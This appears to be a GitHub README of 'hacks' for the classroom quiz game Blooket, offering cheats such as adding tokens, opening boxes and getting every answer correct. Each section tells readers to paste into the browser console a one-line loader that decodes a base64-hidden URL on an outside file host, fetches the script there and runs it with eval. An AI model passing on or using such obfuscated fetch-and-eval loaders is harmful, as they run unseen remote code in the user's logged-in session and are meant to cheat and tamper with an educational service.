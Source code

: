 # blooket
blooket hacks

## <a id="addTokens.js"></a>addTokens.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```


## <a id="spamOpenBoxes.js"></a>spamOpenBoxes.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="sellDupeBlooks.js"></a>sellDupeBlooks.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY2OTM2L2dsb2JhbFNlbGxEdXBlQmxvb2tzLmpz')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="getEveryAnswerCorrect.js"></a>getEveryAnswerCorrect.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEV2ZXJ5QW5zd2VyQ29ycmVjdC5qcw==')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="chest-esp.js"></a>chest-esp.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dvbGRDaGVzdEVTUC5qcw==')).then((res) => res.text().then((t) => eval(t)))
```

## More hacks are coming soon if someone coments on this with more working hacks i will add them

